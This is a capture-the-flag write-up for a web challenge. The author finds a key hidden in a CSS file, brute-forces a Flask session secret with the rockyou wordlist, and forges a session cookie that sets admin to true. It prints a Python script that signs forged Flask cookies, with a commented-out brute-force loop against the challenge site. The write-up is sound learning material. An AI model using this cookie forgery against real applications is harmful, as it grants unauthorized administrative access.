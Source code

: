 ![image](https://user-images.githubusercontent.com/109911533/220856284-9cd886d2-98df-417d-8453-33e8ef317771.png)<br />

This challenge for me is so misleading xD, cost me so much time but still ... i got it.<br />
Lets take a look at the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220856885-118d6b37-1476-44f0-b1e7-e6262b74bbfd.png)<br />

Hmmmm, nothing much too see. How about taking a look at the page's source. <br />
![image](https://user-images.githubusercontent.com/109911533/220857098-02bba6cb-f1df-45ea-be9c-4d30c8e0e87c.png)<br/>

Looks like there's a hidden page called "/hidden_page", lets visit that.<br />
![image](https://user-images.githubusercontent.com/109911533/220857412-c74f17f5-60d7-40d5-8473-e2e98032cc7e.png)<br />

 The page told us that we need a key, but where you ask? This is the part that it got me so mislead that i ended up brute forcing for more than an hour.Basically the admin gave us this hint.<br />
![image](https://user-images.githubusercontent.com/109911533/220857773-df6c222e-0e28-47b8-a259-4690d283b2b3.png)<br />

Ahhh, classic rockyou.txt. If you dont know about it, you can look it up online about what it is.<br />
So now, what do we do in order to get the key. Brute forcing of course. Lets build a script to brute force the key from the website.This is a simple python script that should do the work.<br />
![image](https://user-images.githubusercontent.com/109911533/220858536-b99833ec-e726-4287-a16e-465ee1e964f8.png)<br />

So now we run the script, and start the waiting game. This is where i started to doubt myself about if its the correct way to do it since everyone in the Discord started to talk about it (no hints were given of course). But basically everyone is saying no need to brute force the key what so ever, and maybe there was something else, or you brute forcing the wrong part, bla bla ,...<br />

An HOUR passed without any result from the script, so i think there must be something wrong with the script or maybe there was something else. Waiting for the script i started to look at the source code one more time, just find out the infamous "key" is in a CSS file.<br />
![image](https://user-images.githubusercontent.com/109911533/220859876-d6d57d9b-cc53-4d34-bdeb-28afa656e5a2.png)<br />
![image](https://user-images.githubusercontent.com/109911533/220860016-76bd3dec-3841-4a82-8fb9-2a4b7a2a76d2.png)<br />

LOL, i stop the script and wanted to cry xD. Like for real? OMG.Add it to the url and we got it.<br ?>
![image](https://user-images.githubusercontent.com/109911533/220860307-a230779e-979f-4add-bfe3-847bfc36378a.png)<br />

It direct us to a page and said that we need to verify as ADMIN, which of course we're not. By clicking on verify we got "SUS" by the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220860663-24a91f2f-41a9-4447-b201-5c8b8800e7bf.png)<br />

Now if we take a look at the url, there's a key parameter saying "/?key=anotherkeylol". So you think this will be where we brute force to get the key for admin right?<br />

NO!!!

Again everyone is talking about no need to brute force the key parameter. So maybe it's something else.<br />
This is where i got stuck. I basically dont know what to do since you need to be the admin in order to be able to verify, and the url said that we need another key, if it's not brute forcing the key, what else coudl it be.<br />
Wandering around the chall'page, i notice something. There's a session cookie. Since a lot of web challs tend to be build on Flask, i grab that cookie and decode it. And voila, the cookie is setting "admin":"false".<br />
![image](https://user-images.githubusercontent.com/109911533/220862506-9d110cad-8ac7-4d35-a23c-2e02c06589be.png)

Now we know that to do next, which is to bake a Flask cookie for the website with "admin":"true" to able to become the admin and verify. But if you notice, when forging a flask cookie, we need a secret key.<br />
So this is where brute forcing comes in, using rockyou.txt we need to brute force the secret key, then use it to encode the cookie with the admin value setting to true. <br />
This is my script for it.<br />
```python
import requests
import sys
import zlib
from itsdangerous import base64_decode
import ast


from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key


def encode(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)

    except Exception as e:
        return "[Encoding error] {}".format(e)
        raise e

url = "https://chocolates-mhsctf.0xmmalik.repl.co/admin-check"

payload = {"admin": "true"}

#with open("rockyou.txt", errors = "ignore") as file:
    #lines = [l.strip() for l in file.readlines()]
    #for secret_key in lines:

print(encode("BATMAN", "{'admin':'true'}"))
        #print('Testing secret key "{}"'.format(secret_key))
        #r = requests.get(url , cookies = { "session" : new_cookie })

        #if "valentine{" in r.text:
            #print("GOT ITTTTTTTTTTTTTTTTTTTTTTTTTTTT")
            #break
```
<br />
The # comment i use is when i got the secret key, which is "BATMAN", then i comment all the code out, and use the encode function to encode "BATMAN" with admin setting to true.<br />
![image](https://user-images.githubusercontent.com/109911533/220864698-c3f3b177-97a8-422e-a1ed-04c66fffc086.png)<br />

Now we got that, lets copy and paste it on to the website cookie, and there you have it, the FLAG.<br />
![image](https://user-images.githubusercontent.com/109911533/220864973-977ec71f-fcc7-4d76-8a93-2f70cdd1171c.png)









